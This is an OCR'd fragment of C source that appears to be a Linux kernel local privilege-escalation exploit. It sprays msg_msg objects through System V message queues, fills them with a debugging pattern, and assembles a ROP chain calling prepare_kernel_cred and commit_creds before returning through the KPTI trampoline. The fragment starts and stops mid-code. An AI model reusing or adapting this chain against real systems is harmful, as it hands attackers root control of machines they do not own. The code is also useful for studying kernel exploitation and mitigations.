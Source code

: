 ```c
    // 0x32afea: ret;
    ret = base + 0x32afeaULL;
    printf("    >> ret located @ 0x%lx\n", ret);
}

// Initialize a kernel message queue
int init_msg_q(void) {
    int msg_qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    if (msg_qid == -1) {
        err("`msgget()` failed to initialize queue");
    }

    msg_queue[num_queue] = msg_qid;
    num_queue++;
}

// Allocate one msg_msg on the heap
size_t send_message() {
    // Calcuate current queue
    if (num_queue < 1) {
        err("`send_message()` called with no message queues");
    }
    int curr_q = msg_queue[num_queue - 1];

    // Send message
    size_t fails = 0;
    struct msgbuf {
        long mtype;
        char mtext[MSG_SZ];
    } msg;

    // Unique identifier we can use
    msg.mtype = 0x1337;

    // Construct the ROP chain
    memset(msg.mtext, 0, MSG_SZ);

    // Pattern for offsets (debugging)
    uint64_t base = 0x41;
    uint64_t *curr = (uint64_t *)&msg.mtext[0];
    for (size_t i = 0; i < 25; i++) {
        uint64_t fill = base << 56;
        fill |= base << 48;
        fill |= base << 40;
        fill |= base << 32;
        fill |= base << 24;
        fill |= base << 16;
        fill |= base << 8;
        fill |= base;
        
        *curr++ = fill;
        base++; 
    }

    // ROP chain
    uint64_t *rop = (uint64_t *)&msg.mtext[0];
    *rop++ = pop_rdi; 
    *rop++ = 0x0;
    *rop++ = prepare_kernel_cred; // RAX now holds ptr to new creds
    *rop++ = xchg_rdi_rax; // Place creds into RDI 
    *rop++ = commit_creds; // Now we have super powers
    *rop++ = kpti_tramp;
    *rop++ = 0x0; // pop rax inside kpti_tramp
```